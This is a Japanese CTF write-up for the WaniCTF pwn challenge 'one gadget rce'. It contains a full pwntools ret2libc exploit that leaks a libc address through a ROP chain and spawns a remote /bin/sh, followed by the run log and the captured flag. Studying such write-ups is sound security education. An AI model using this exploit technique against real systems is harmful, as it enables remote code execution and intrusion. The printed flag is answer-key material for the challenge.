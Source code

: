# one gadget rce:PWN:pts
nc rce.wanictf.org 9007  
- ROPを使ったlibcのロードアドレスのリークを理解する必要があります。  
- libc上にあるone gadget RCE (Remote Code Execution)の探し方と呼び出し方を理解する必要があります。  
- one_gadget libc-2.27.so  

使用ツール例  
- [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)  
- [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)  
- [ROPgadget](https://github.com/wani-hackase/memo-setup-pwn-utils#ROPgadget)  
- [one_gadget](https://github.com/wani-hackase/memo-setup-pwn-utils#one_gadget)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn07](pwn07)　　　　[pwn07.c](pwn07.c)　　　　[libc-2.27.so](libc-2.27.so)  

# Solution
ret2libcを行えば良さそうだ。  
以下のpwnpwn07.pyで行う。  
```python:pwnpwn07.py
from pwn import *

elf = ELF('./pwn07')
libc = ELF('./libc-2.27.so')
io = remote("rop.wanictf.org", 9007)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 22
io.recvline()
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
for i in range(12):
    io.recvline()
recieved = io.recvline().strip().replace(b"\n", b"")
io.recvline()

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))

payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python pwnpwn07.py
[*] '/pwn07'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to rop.wanictf.org on port 9007: Done
[*] Loaded 14 cached gadgets for './pwn07'
[*] puts@plt: 0x400650
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x400a13
[*] Leaked libc address,  __libc_start_main: 0x7fd35b407b10
[*] Address of libc 0x7fd35b3e6000
[*] /bin/sh 0x7fd35b599e1a
[*] system 0x7fd35b435550
[*] Switching to interactive mode
What's your name?: hello AAAAAAAAAA7!

***start stack dump***
0x7ffc837c4990: 0x41414141414149b0 <- rsp
0x7ffc837c4998: 0x0000003741414141
0x7ffc837c49a0: 0x4141414141414141 <- rbp
0x7ffc837c49a8: 0x0000000000400626 <- return address
0x7ffc837c49b0: 0x0000000000400a13
0x7ffc837c49b8: 0x00007fd35b599e1a
0x7ffc837c49c0: 0x00007fd35b435550
***end stack dump***

$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
FLAG{mem0ry-1eak-4nd-0ne-gadget-rem0te-ce}
$
[*] Interrupted
```
flagが得られた。  

## FLAG{mem0ry-1eak-4nd-0ne-gadget-rem0te-ce}